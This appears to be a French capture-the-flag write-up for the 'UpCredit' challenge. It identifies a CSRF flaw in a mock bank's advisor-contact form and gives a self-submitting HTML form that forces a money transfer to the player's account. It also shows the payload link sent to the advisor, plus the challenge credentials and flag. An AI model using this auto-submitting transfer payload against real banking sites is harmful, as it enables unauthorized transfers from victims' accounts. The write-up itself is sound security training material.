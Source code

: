 # Upcredit

![chal](./UpCredit.png)

## wu

Lorsqu'on se connecte, nous avons se message:

```
Your registration has been taken into account ! Here are your credentials, keep them preciously !

Account ID : LsMdhlHCf

Password : kviQjkj6XdAmIPrzN1oW
```

Nous avons un formulaire pour contacter notre banquier, après quelques test, il s'agit une vulnérabilité de type <a href="https://www.cert.ssi.gouv.fr/information/CERTA-2008-INF-00">CSRF</a>.


On prépare notre payload:
```
<html> 
<form name="pls" action="http://upcredit4.chall.malicecyber.com/transfer" method="post">
<input type="hidden" name="account" value="LsMdhlHCf">
<input type="hidden" name="amount" value="200">
<input type="submit" value="Send"/>
</form>
<script language="javascript">document.pls.submit();</script>
</html>
```

Et ensuite:
```
Contact your advisor:

subject: whatever

Message:

http://<IP>/payload.html
```

Notre flag:
W1nG4rD1um\L3v1os444! 
